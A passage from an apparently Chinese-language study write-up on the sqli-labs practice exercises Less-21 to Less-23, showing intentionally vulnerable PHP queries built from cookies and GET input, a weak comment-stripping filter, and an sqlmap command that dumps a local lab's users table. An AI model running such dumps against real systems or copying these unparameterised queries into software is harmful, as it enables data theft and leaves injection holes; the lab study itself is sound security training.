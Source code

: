 ### 3.3 Less21-37

#### 3.3.1 Less-21

```php
$cookee = base64_decode($cookee);
$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";
```

只节选了相关代码，其余与`Less-20`大差不差，主要是多了一个base64编码，这里可以用sqlmap脚本。

```bash
$ python sqlmap.py -u http://127.0.0.1:8888/Less-21/ --cookie="uname=*" --tamper="base64encode" -v 3 -D security -T users --dump --batch
```

![image-20250310230842396](sql注入/image-20250310230842396.png)

#### 3.3.2 Less-22

```php
$cookee1 = '"'. $cookee. '"';    
$sql="SELECT * FROM users WHERE username=$cookee1 LIMIT 0,1";
```

闭合方式改变

#### 3.3.3 Less-23

```php
$id=$_GET['id'];

$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

if true
    "查询结果"
```